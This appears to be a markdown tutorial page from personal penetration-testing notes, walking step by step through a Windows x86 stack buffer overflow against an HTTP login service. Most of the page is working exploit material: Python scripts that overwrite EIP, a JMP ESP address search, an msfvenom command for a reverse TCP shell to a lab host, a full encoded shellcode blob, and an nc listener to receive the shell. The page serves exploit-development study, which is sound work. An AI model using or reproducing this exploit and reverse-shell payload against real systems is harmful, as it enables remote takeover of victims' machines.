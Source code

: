 ```yaml
---
title: Stack Buffer Overflow
parent: Windows x86
layout: default
nav_order: 1
---
```


1. First have a PoC ready. Should look like below. Ensure this can overwrite EIP (should be 41414141). Open WinDBG and attach to the process. Run the code on Kali.

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = "192.168.1.1" # host
    port = 80
    size = 800
    inputBuffer = b"A" * size
    content = b"username=" + inputBuffer + b"&password=A"

    buffer = b"POST /login HTTP/1.1\r\n"
    buffer += b"Host: " + server.encode() + b"\r\n"
    buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
    buffer += b"Referer: http://10.11.0.22/login\r\n"
    buffer += b"Connection: close\r\n"
    buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
    buffer += b"\r\n"
    buffer += content

    print("Sending evil buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buffer)
    s.close()
    
    print("Done!")
    
    except socket.error:
    print("Could not connect!")
    ```

2. Run `msf-pattern_create -l 800` where 800 should be longer or same than the crash length to identify where it crash. Comment the previous inputBuffer in the Python PoC and use this instead.
3. Check what is in EIP in WinDBG, and then use `msf-pattern_offset -l 800 -q EIPVALUE` to get the offset.
4. To ensure that the address is correct, can do something like this if the EIP offset is 780:

    ```
    ...
    filler = b"A" * 780 # EIP Offset
    eip = b"B" * 4 # Value that should be for EIP Address
    buf = b"C" * 16 # Check to see where this goes
    inputBuffer = filler + eip + buf
    ...
    ```

5. If the EIP address is now 42424242, then the offset address is correct.
6. In WinDBG, use `r` to check the registers (usually ESP address), then use `dds esp L3` and `dds esp -10 L8` to see if the ESP register points to Cs (and also check which set of C, it might not be the first). If yes it means we can use ESP to host shellcode.
7. If only a few bytes of Cs are available there, need to ensure that it has enough space. Can use D this time to find out if have enough space for shellcode (800 to 1500 bytes will be sufficient).

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"B" * 4
    offset = b"C" * 4
    shellcode = b"D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + shellcode
    content = b"username=" + inputBuffer + b"&password=A"
    ...
    ```

8. Run this again and should notice that the ESP now points correctly to D (44444444), and not any front or after. (Use `r` and `dds esp - 8 L7`).
9. To check how much space you have, find where does it end. Do a trial and error (`dds esp+100 L8`,`dds esp+200 L8`,... in this case it is `dds esp+2c0 L4`). Use that line that no longer has D (44444444) to minus the ESP start address with `? 00567724 - 0056745c`.
10. Check for bad characters by replacing D with all hex except 0x00:

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"B" * 4
    offset = b"C" * 4
    badchars = (
        b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
        b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
        b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
        b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
        b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
        b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
        b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
        b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
        b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
        b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
        b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
        b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
        b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
        b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
        b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
    #shellcode = "D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + badchars
    ...
    ```

11. Now retrigger and check `db esp - 10 L20` to see which characters are truncated or missing. Remove that specific character and try again. Do this until all bad characters are removed.
12. Next we need to find an address that points to ESP (cannot be pointing to the address number directly because stack address changes from time to time). Usually this can be done by finding a JMP ESP instruction. This address of instruction must be static, and also not have any bad characters.
13. This can be done by using ProcessHacker. Launch as admin then locate the executable. Double click on it then Properties -> General -> Mitigation Policies will tell you if there are any protections like ASLR and DEP. If click on Modules tab can see the DLLs being loaded. From here need to find a DLL that has address range with no bad characters.
14. In Kali, run `msf-nasm_shell`, then `jmp esp` to get the instruction for JMP ESP (it is FFE4).
15. In WinDBG, run `lm m libspp`, where libspp is the dll chosen just now, and you will get start and end address. Use `s -b 10000000 10223000 0xff 0xe4` (the first 2 is start and end address, and ff e4 is JMP ESP). It should reveal an address. Make sure the address doesnt have bad characters. Use `u 10090c83` to make sure the address is JMP ESP.
16. Can now update the code to include this address (endian, so need reverse order):

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"\x83\x0c\x09\x10" # 0x10090c83 - JMP ESP
    offset = b"C" * 4
    shellcode = "D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + shellcode
    content = b"username=" + inputBuffer + b"&password=A"
    ...
    ```

17. To ensure this is working correctly, use a breakpoint on the JMP ESP instruction (0x10090c83) by using `bp 10090c83`. `bl` to confirm it, `g` to continue execution then once it hits breakpoint, run `t` and `dc eip L4` to ensure EIP is overwritten with D.
18. Use msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"` with the -b being bad characters to generate shellcode. Ensure that the size is smaller than your shellcode available size.
19. Add NOP slides so that the CPU will slide through the NOPs to reach shellcode. For Python3, remove the word bytearray and add b infront each line after shellcode:

    ```
    ...
    filler = b"A" * 780
    eip = b"\x83\x0c\x09\x10" # 0x10090c83 - JMP ESP
    offset = b"C" * 4
    nops = b"\x90" * 10
    shellcode = bytearray(
    "\xdd\xc4\xba\x6d\xdc\x1e\xf1\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
    "\x52\x31\x56\x17\x83\xee\xfc\x03\x3b\xcf\xfc\x04\x3f\x07\x82"
    "\xe7\xbf\xd8\xe3\x6e\x5a\xe9\x23\x14\x2f\x5a\x94\x5e\x7d\x57"
    "\x5f\x32\x95\xec\x2d\x9b\x9a\x45\x9b\xfd\x95\x56\xb0\x3e\xb4"
    "\xd4\xcb\x12\x16\xe4\x03\x67\x57\x21\x79\x8a\x05\xfa\xf5\x39"
    "\xb9\x8f\x40\x82\x32\xc3\x45\x82\xa7\x94\x64\xa3\x76\xae\x3e"
    "\x63\x79\x63\x4b\x2a\x61\x60\x76\xe4\x1a\x52\x0c\xf7\xca\xaa"
    "\xed\x54\x33\x03\x1c\xa4\x74\xa4\xff\xd3\x8c\xd6\x82\xe3\x4b"
    "\xa4\x58\x61\x4f\x0e\x2a\xd1\xab\xae\xff\x84\x38\xbc\xb4\xc3"
    "\x66\xa1\x4b\x07\x1d\xdd\xc0\xa6\xf1\x57\x92\x8c\xd5\x3c\x40"
    "\xac\x4c\x99\x27\xd1\x8e\x42\x97\x77\xc5\x6f\xcc\x05\x84\xe7"
    "\x21\x24\x36\xf8\x2d\x3f\x45\xca\xf2\xeb\xc1\x66\x7a\x32\x16"
    "\x88\x51\x82\x88\x77\x5a\xf3\x81\xb3\x0e\xa3\xb9\x12\x2f\x28"
    "\x39\x9a\xfa\xff\x69\x34\x55\x40\xd9\xf4\x05\x28\x33\xfb\x7a"
    "\x48\x3c\xd1\x12\xe3\xc7\xb2\xdc\x5c\xb0\x3a\xb5\x9e\x3e\xba"
    "\xfe\x16\xd8\xd6\x10\x7f\x73\x4f\x88\xda\x0f\xee\x55\xf1\x6a"
    "\x30\xdd\xf6\x8b\xff\x16\x72\x9f\x68\xd7\xc9\xfd\x3f\xe8\xe7"
    "\x69\xa3\x7b\x6c\x69\xaa\x67\x3b\x3e\xfb\x56\x32\xaa\x11\xc0"
    "\xec\xc8\xeb\x94\xd7\x48\x30\x65\xd9\x51\xb5\xd1\xfd\x41\x03"
    "\xd9\xb9\x35\xdb\x8c\x17\xe3\x9d\x66\xd6\x5d\x74\xd4\xb0\x09"
    "\x01\x16\x03\x4f\x0e\x73\xf5\xaf\xbf\x2a\x40\xd0\x70\xbb\x44"
    "\xa9\x6c\x5b\xaa\x60\x35\x6b\xe1\x28\x1c\xe4\xac\xb9\x1c\x69"
    "\x4f\x14\x62\x94\xcc\x9c\x1b\x63\xcc\xd5\x1e\x2f\x4a\x06\x53"
    "\x20\x3f\x28\xc0\x41\x6a")
    shellcode+= "D" * (1500 - len(filler) - len(eip) - len(offset) - len(shellcode))
    inputBuffer = filler + eip + offset + nops + shellcode
    ...
    ```

20. Run `sudo nc -lvp 443` on Kali, send the exploit code and you should receive shell.